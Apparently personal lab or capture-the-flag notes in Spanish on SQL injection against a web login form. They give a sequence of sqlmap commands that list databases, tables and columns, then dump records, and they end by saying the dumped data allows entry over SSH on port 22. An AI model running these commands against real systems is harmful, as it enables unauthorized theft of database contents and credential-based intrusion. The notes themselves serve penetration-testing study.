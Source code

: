 - Las inyecciones SQL acontecen en los login web.
![[Pasted image 20241219201913.png]]
- Vamos a usar la herramienta ==sqlmap==.
![[Pasted image 20241219202455.png]]
- Con esta herramienta podemos encontrar:
	- Bases de datos
		- Tablas, columnas y registros.
- Es importante tener conocimiento de SQL.
https://www.youtube.com/watch?v=FbGG_cyLUAc
- Usamos el siguiente comando:
```
sqlmap -u (URL_CORRESPONDIENTE) --forms --dbs --batch
```
![[Pasted image 20241219202912.png]]
- Encontramos los siguientes bases de datos:
![[Pasted image 20241219203414.png]]
- Nos interesa Webapp.
- Vamos a usar el siguiente comando utilizando Webapp:
```
sqlmap -u (URL_CORRESPONDIENTE) --forms -D (NOMBRE_BASE_DATOS) --tables --batch
```
![[Pasted image 20241219203707.png]]
- Nos encontró 1 tabla:
![[Pasted image 20241219203836.png]]
- Que hay dentro de esta tabla?, Columnas.
- Para ver que columnas posee vamos a usar el siguiente codigo:
```
sqlmap -u (URLS_CORRESPONDIENTE) --forms -D (NOMBRE_BASE_DATOS) -T (TABLA) --columns --batch
```
![[Pasted image 20241219204140.png]]
- Nos da las siguientes columnas.
![[Pasted image 20241219204516.png]]
- Ahora vamos a ver los registros de las columnas con el siguiente código:
```
sqlmap -u (URLS_CORRESPONDIENTE) --forms -D (NOMBRE_BASE_DATOS) -T (TABLA) -C(COLUMNAS) --dump --batch
```
![[Pasted image 20241219204737.png]]
- Ya tenemos toda la información que necesitamos:
![[Pasted image 20241219205227.png]]
- Ya con esto podemos entrar por el puerto 22.